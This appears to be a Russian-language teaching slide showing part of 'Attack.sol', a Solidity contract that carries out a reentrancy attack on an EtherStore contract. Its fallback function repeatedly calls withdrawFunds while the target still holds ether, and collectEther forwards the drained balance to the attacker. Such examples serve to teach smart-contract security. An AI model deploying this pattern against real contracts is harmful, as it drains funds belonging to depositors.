

# Враждебный смарт-контракт Attack.sol

    // Function to transfer the ether collected by this contract to the attacker's address
    function collectEther() public {
        payable(msg.sender).transfer(address(this).balance);
    }

    // Fallback function is used when none of the other functions match the called function.
    fallback() external payable {
        // If the balance of the EtherStore is still above 1 ether, continue the attack
       if (address(etherStore).balance >= 1 ether) {
            etherStore.withdrawFunds(1 ether);
        }
    }
}